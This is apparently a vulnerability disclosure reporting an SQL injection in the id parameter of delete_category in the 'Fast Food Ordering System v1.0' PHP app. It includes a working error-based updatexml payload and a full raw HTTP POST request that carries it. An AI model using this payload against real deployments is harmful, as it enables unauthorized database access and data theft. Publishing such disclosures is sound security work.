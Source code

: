 # Fast Food Ordering System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15366/fast-food-ordering-system-phpoop-free-source-code.html

Vulnerability File: /ffos/classes/Master.php?f=delete_category

Vulnerability location: /ffos/classes/Master.php?f=delete_category, id

dbname = ffos_db

[+] Payload: id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /ffos/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/ffos/admin/?page=categories
Content-Length: 65
Cookie: PHPSESSID=rlr2a917ahfp4mc52mm9a7kvvm
Connection: close

id=6' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171347154-738d0535-e247-4c8b-8a6a-e460a31543ca.png)
